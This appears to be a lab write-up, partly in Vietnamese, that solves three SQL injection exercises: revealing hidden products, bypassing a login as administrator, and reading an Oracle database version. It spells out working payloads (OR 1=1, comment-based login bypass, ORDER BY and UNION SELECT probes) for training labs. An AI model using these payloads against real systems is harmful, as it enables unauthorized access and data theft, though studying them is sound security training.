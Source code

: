 # SQL Injection Vulnerability in WHERE Clause Allowing Retrieval of Hidden Data
## Lab Description
![image](Picture/lab1.png)

The query used by the application is provided in the lab description:
```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```
This query retrieves information from the `products` table, specifically selecting products that belong to the `category` with the condition `released = 1`, meaning the products have been released.

To see all products, we need to make this condition `TRUE`.
```sql
Gifts' OR 1=1--
```
The condition `1=1` is always true, and `--` is used to start a comment in SQL, so everything after it is ignored.

# SQL Injection Vulnerability Allowing Login Bypass
## Lab Description
![image](Picture/lab2.png)

The query used in the lab will look something like:
```sql
SELECT * FROM users WHERE username = 'username' AND password = 'password';
```
I try to inject into the username field with `--` to bypass the `AND password = 'password'` condition.

```sql
WHERE username = 'administrator' --
```

This will result in a query like:
```sql
SELECT * FROM users WHERE username = 'administrator' -- ' AND password = '<PASSWORD>'
```
![image](Picture/loginbypass.png)

The final query becomes:
```sql
SELECT * FROM users WHERE username = 'administrator';
```

# SQL injection attack, querying the database type and version on Oracle
## Lab Description
![image](Picture/lab3.png)

Trong `Oracle`, mọi câu lệnh SELECT đều phải có một bảng `FROM`. Và trong `Oracle` có một table có thể được dùng cho mục đích này tên là `dual`
Và có 2 phương pháp khác nhau để truy vấn phiên bản cơ sở dữ liệu trên Oracle.
`SELECT banner FROM v$version`, `SELECT version FROM v$instance`

Để làm được bài tìm được columns chứa string. 
Các bước thực hiện của bài này:
- Đầu tiên xác định số columns của nó bằng cách inject `' ORDER BY 1--` ở đây 1 là số columns, ta tiếp tục tăng lên đến khi bị lỗi và xác định được là có 2 columns.
  ```sql
  SELECT * FROM someTable WHERE category = 'Pets' ORDER BY 2--
  ```
- Tiếp tục kiểm tra cột chứa string bằng `' UNION SELECT 'a','a' FROM DUAL--` ta xác định được 2 columns đều chứa string.
  ```sql
  SELECT * FROM someTable WHERE category = 'Pets' UNION SELECT 'a','a' FROM DUAL--
  ```
- Và cuối cùng để lấy thông tin version inject `' UNION SELECT 'a', banner FROM v$version--`
  ```sql
  SELECT * FROM someTable WHERE category='Pets' UNION SELECT 'a', banner FROM v$version--'
  ```
